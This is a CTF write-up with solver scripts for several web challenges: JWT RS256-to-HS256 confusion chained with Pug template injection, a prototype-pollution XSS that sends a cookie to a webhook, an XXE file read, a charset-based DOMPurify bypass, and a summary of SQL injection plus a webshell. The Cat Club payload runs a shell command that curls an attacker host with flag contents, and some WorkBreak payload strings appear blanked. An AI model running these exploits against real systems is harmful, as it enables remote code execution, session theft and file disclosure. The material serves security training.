


# CTF Challenges 

## Overview - Cat Club Web Application

The challenge involves exploiting a Node.js web application that has two key vulnerabilities:
    - Server-side Template Injection (SSTI) in Pug templates
    - JWT token vulnerability through algorithm confusion

## Application Structure

- `GET /jwks.json`: Returns the JSON Web Key Set (JWKS).
- `GET /`: Renders the home page.
- `GET /register` and `GET /login`: Renders the login/register page.
- `POST /login`: Authenticates a user and sets a JWT token.
- `POST /register`: Registers a new user and sets a JWT token.
- `GET /cats`: Renders the cat gallery page.
- `GET /logout`: Logs out the user by clearing the JWT token.


 

walking through the code code we noticed a potential template injection since there's a user input passed directly to `pug.render()` 

```javascript
router.get("/cats", getCurrentUser, (req, res) => {
    if (!req.user) {
        return res.redirect("/login?error=Please log in to view the cat gallery");
    }

    const templatePath = path.join(__dirname, "views", "cats.pug");

    fs.readFile(templatePath, "utf8", (err, template) => {
        if (err) {
            return res.render("cats");
        }

        if (typeof req.user != "undefined") {
            template = template.replace(/guest/g, req.user);
        }

        const html = pug.render(template, {
            filename: templatePath,
            user: req.user,
        });

        res.send(html);
    });
});
```


However, the username input appears to be filtered through a security sanitization measures

```javascript
const { BadRequest } = require("http-errors");

function sanitizeUsername(username) {
    const usernameRegex = /^[a-zA-Z0-9]+$/;

    if (!usernameRegex.test(username)) {
        throw new BadRequest("Username can only contain letters and numbers.");
    }

    return username;
}

module.exports = {
    sanitizeUsername,
};
``` 
We found another way to attack: the username is stored in the JWT token. If we can change the JWT token data, we can try our template injection attack there instead.

```javascript
function getCurrentUser(req, res, next) {
    const token = req.cookies.token;

    if (token) {
        verifyJWT(token)
            .then((payload) => {
                req.user = payload.username;
                res.locals.user = req.user;
                next();
            })
            .catch(() => {
                req.user = null;
                res.locals.user = null;
                next();
            });
    } else {
        req.user = null;
        res.locals.user = null;
        next();
    }
}
```

## JWT key confusion 
```javascript
const privateKey = fs.readFileSync(path.join(__dirname, "..", "private_key.pem"), "utf8");
const publicKey = fs.readFileSync(path.join(__dirname, "..", "public_key.pem"), "utf8");

function signJWT(payload) {
    return new Promise((resolve, reject) => {
        jwt.encode(privateKey, payload, "RS256", (err, token) => {
            if (err) {
                return reject(new Error("Error encoding token"));
            }
            resolve(token);
        });
    });
}

function verifyJWT(token) {
    return new Promise((resolve, reject) => {
        if (!token || typeof token !== "string" || token.split(".").length !== 3) {
            return reject(new Error("Invalid token format"));
        }

        jwt.decode(publicKey, token, (err, payload, header) => {
            if (err) {
                return reject(new Error("Invalid or expired token"));
            }

            if (header.alg.toLowerCase() === "none") {
                return reject(new Error("Algorithm 'none' is not allowed"));
            }

            resolve(payload);
        });
    });
}
``` 

When working with JWT tokens, we can exploit algorithm confusion by:

1. The server expects RS256 (asymmetric) algorithm
2. We can modify the token's algorithm header from RS256 to HS256 (symmetric)
3. Since HS256 uses the same key for signing and verification:
   - We take the public key that's meant for RS256
   - Use it as the HMAC secret key to sign with HS256
4. When server verifies:
   - It sees HS256 algorithm
   - Uses its public key as HMAC secret
   - The signature matches because we used the same public key

This works because the server doesn't properly validate the algorithm type, allowing us to force it to use the public key as an HMAC secret.

This is a common JWT security vulnerability when algorithm type checking isn't properly implemented.

this is the solver 

```python
import httpx
import subprocess
from base64 import urlsafe_b64decode
from Crypto.PublicKey import RSA

BASE_URL = 'https://catclub-0.ctf.intigriti.io'
REGISTER_URL = f'{BASE_URL}/register'
LOGIN_URL = f'{BASE_URL}/login'
JWK_URL = f'{BASE_URL}/jwks.json'
CAT_URL = f'{BASE_URL}/cats'
JWT_TOOL_PATH = f'./jwt_tool'

SSTI_PAYLOAD = "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('curl https://ATTACKER_SERVER/?flag=$(cat /flag* | base64)')}()}"

def base64url_decode(data):
    return urlsafe_b64decode(data + b'=' * (-len(data) % 4))

def register_user(username, password):
    response = httpx.post(REGISTER_URL, data={"username": username, "password": password})
    return response.status_code == 200

def login_user(username, password):
    client = httpx.Client()
    response = client.post(LOGIN_URL, data={"username": username, "password": password})
    if response.status_code == 303:
        response = client.get(BASE_URL)
    token = client.cookies.get("token")
    return token

def download_jwk():
    response = httpx.get(JWK_URL)
    if response.status_code == 200:
        return response.json()['keys'][0]
    else:
        return None

def rsa_public_key_from_jwk(jwk):
    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))
    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')
    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')
    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

def modify_jwt_with_tool(token):
    command = [
        "python", f"{JWT_TOOL_PATH}/jwt_tool.py", token, "-X", "k", "-pk", "./recovered_public.key", "-I", "-pc", "username", "-pv", SSTI_PAYLOAD
    ]
    result = subprocess.run(command, capture_output=True, text=True)
    for line in result.stdout.splitlines():
        if line.startswith("[+] "):
            modified_token = line.split(" ")[1].strip()
            return modified_token
    return None

def test_ssti(modified_token):
    cookies = {'token': modified_token}
    response = httpx.get(CAT_URL, cookies=cookies)

def main():
    username = "zzzzzz"
    password = "zzzzz"

    if not register_user(username, password):
        return

    jwt_token = login_user(username, password)
    if not jwt_token:
        return

    jwk = download_jwk()
    if not jwk:
        return

    rsa_public_key_from_jwk(jwk)

    modified_jwt = modify_jwt_with_tool(jwt_token)
    if not modified_jwt:
        return

    test_ssti(modified_jwt)

if __name__ == "__main__":
    main()
``` 
1- Registers a user
2- Gets JWT token from login
3- Retrieves public key from JWKS endpoint
4- Modifies JWT token (RS256 → HS256) using jwt_tool
5- Injects Pug template payload for RCE
6- Makes request with modified token

# WorkBreak 

### Objective

The goal is to exploit an XSS vulnerability on the challenge domain and leverage it to exfiltrate the session cookie of the support engineer.

### TLDR

First, we created an account on WorkBreak and started monitoring the traffic. Through this analysis, we found two important API endpoints:
- `/api/user/profile` - Gets profile data
- `/api/user/settings` - Updates profile settings

Looking deeper at how these endpoints interact, we discovered something interesting: data we send to `/api/user/settings` shows up in the `dynamicInfo` field when we fetch from `/api/user/profile`. This hints at a possible mass assignment vulnerability.

Next, we examined `performance_chart.js`. This script processes task data that comes in a JSON array format. Each task object contains two fields:
- `tasksCompleted`
- `date`

The script uses D3.js library's `.html()` method to render the `tasksCompleted` value, which will lead to an XSS vector since it's directly inserting HTML.
    
```javascript
    const taskCounts = generateTaskHeatmapData(taskData);
    const today = new Date().toISOString().split("T")[0];
    const todayTask = taskData.find((task) => task.date === today);
    const todayTasksDiv = d3.select("#todayTasks");
    if (todayTask) {
        todayTasksDiv.html(`Tasks Completed Today: ${todayTask.tasksCompleted}`);
    } else {
        todayTasksDiv.html("Tasks Completed Today: 0");
    }
```

also there's a prototype pollution vulnerability in `profile.js` script.

```javascript   
const userSettings = Object.assign({ name: "", phone: "", position: "" }, profileData.dynamicInfo);
```
this is out payload payload 

```json
    {
        "name": "zzzzzz",
        "phone": "",
        "position": "",
        "__proto__": {
            "tasks": [
                {
                    "date": "YYYY-MM-DD",
                    "tasksCompleted": ""
                }
            ]
        }
    }
    
```
    
we successfully popped the alert but origin is 'null' due to sandbox iframe.

Secondary XSS Vector (profile.js):

```javascript
    window.addEventListener(
        "message",
        (event) => {
            if (event.source !== frames[0]) return;
            document.getElementById(
                "totalTasks"
            ).innerHTML = `<p>Total tasks completed: ${event.data.totalTasks}</p>`;
        },
        false
    );
// Unsafe innerHTML with user-controlled data
 ```
    
finally Send postMessage to EventListener to exploit the second XSS vulnerability:
    
```javascript
    (async () => {
        parent.postMessage({ totalTasks: "" }, "*");
    })();
    
```
    

### Solution Script

```python
import httpx
import base64
import datetime
from typing import Optional

class WorkBreakExploit:
    def __init__(self, domain: str, webhook: str):
        self.domain = domain
        self.webhook = webhook
        self.client: Optional[httpx.AsyncClient] = None
        self.sid: Optional[str] = None

    async def __aenter__(self):
        self.client = httpx.AsyncClient()
        return self

    async def __aexit__(self, exc_type, exc_val, exc_tb):
        if self.client:
            await self.client.aclose()

    async def create_session(self, email: str = "zwx@xin.cn", password: str = "zz1337") -> None:
        """Create user session and store SID"""
        await self.client.post(
            f"http://{self.domain}/api/auth/signup",
            json={"email": email, "password": password}
        )
        login_res = await self.client.post(
            f"http://{self.domain}/api/auth/login",
            json={"email": email, "password": password},
            follow_redirects=False
        )
        self.sid = login_res.cookies.get("SID")
        print(f"[+] session retrieved successfully: {self.sid}")

    def craft_xss_payload(self) -> dict:
        """Create the XSS payload with prototype pollution"""
        extract_flag = f"(async()=>{{await fetch(`https://{self.webhook}/?${{document.cookie}}`);}})()"
        post_message = (
            f"(async()=>{{parent.postMessage({{\"totalTasks\":\""
            f"\"}}"
            f",'*');}})()"
        )
        
        return {
            "name": "Anon",
            "phone": "",
            "position": "",
            "__proto__": {
                "tasks": [{
                    "date": datetime.date.today().strftime("%Y-%m-%d"),
                    "tasksCompleted": f"",
                }]
            }
        }

    async def inject_payload(self) -> None:
        """Inject the XSS payload"""
        headers = {"Cookie": f"SID={self.sid}"}
        payload = self.craft_xss_payload()
        
        await self.client.post(
            f"http://{self.domain}/api/user/settings",
            headers=headers,
            json=payload
        )
        print("[+] payload has been persisted!")

    async def trigger_admin_visit(self) -> None:
        """Trigger admin visit to exploit page"""
        headers = {"Cookie": f"SID={self.sid}"}
        uuid_res = await self.client.get(
            f"http://{self.domain}/",
            headers=headers,
            follow_redirects=False
        )
        
        await self.client.post(
            f"http://{self.domain}/api/support/chat",
            headers=headers,
            json={"message": f"http://{self.domain}{uuid_res.headers['Location']}"}
        )
        print("[+] admin exploited - check the collaborator")

    async def execute(self) -> None:
        """Execute the full exploit chain"""
        await self.create_session()
        await self.inject_payload()
        await self.trigger_admin_visit()

async def main():
    domain = ""  # Add target domain
    webhook = "" # Add webhook URL
    
    async with WorkBreakExploit(domain, webhook) as exploit:
        await exploit.execute()

if __name__ == "__main__":
    import asyncio
    asyncio.run(main())
```
it was a nice chain

# Biocorp - A simple XEE 

here's the solver 
```python
import requests

# Define the target URL
url = 'https://biocorp.ctf.intigriti.io/panel.php'

# Define the headers
headers = {
    'Host': 'biocorp.ctf.intigriti.io',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'X-Biocorp-Vpn': '80.187.61.102',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-User': '?1',
    'Priority': 'u=0, i',
    'Te': 'trailers',
    'Content-Type': 'application/xml'
}

# Define the XML payload
xml_payload = '''<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reactor [
<!ELEMENT reactor ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<reactor>
    <status>
        <temperature>&xxe;</temperature>
        <pressure>1337</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>
'''

response = requests.post(url, headers=headers, data=xml_payload)
print(response.text)
```

# Sushi Search - after the contest

so we have a simple Fastify application - here's the key point

```javascript
fastify.get("/search", async (req, reply) => {
    const query = req.query.search || "";

    const matchedItems = items.filter(
        (item) =>
            item.title.toLowerCase().includes(query.toLowerCase()) ||
            item.description.toLowerCase().includes(query.toLowerCase())
    );

    const window = new JSDOM("").window;
    const DOMPurify = createDOMPurify(window);
    const cleanQuery = DOMPurify.sanitize(query);

    const resp = await ejs.renderFile(path.resolve(__dirname, "views", "result.ejs"), {
        message: cleanQuery,
        items: matchedItems,
    });
    reply.type("text/html").send(resp);
});
```

The web application uses DOMPurify to sanitize user input from the search parameter, but has a critical flaw in how it handles character encoding. 
When a request is made to `/search`, the application doesn't explicitly set a character encoding in the Content-Type header. 
This allows an attacker to manipulate how the browser interprets the text by inserting special `ISO-2022-JP` escape sequences (`\x1b$B` and `\x1b(B`).
 While DOMPurify processes the input as *UTF-8* during sanitization, the browser can be tricked into interpreting the response as *ISO-2022-JP* due to these escape sequences. 
 This encoding differential creates a gap where certain characters get processed differently between sanitization and rendering phases. 
 
 As a result,we can craft a malicious payload that appears safe to DOMPurify when processed as UTF-8, but becomes dangerous javascript code when the browser interprets it as `ISO-2022-JP`.

```javascript
<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="%1b$B"></a>%1b(B<a%20id="></a>
```



6. **Credits**
- https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/ 
- https://x.com/kevin_mizu/status/1812882499875319959 

# Fruitables 

This was a simple question . Tl;dr :

1- Postgresql injection in the login form 
2- get and crack credentials tjfry_admin 
3- abuse the upload functionality in the admin portal to serve a webshell
4- cat the flag :D 

sadly didn't have time to do all the pwn challenges 

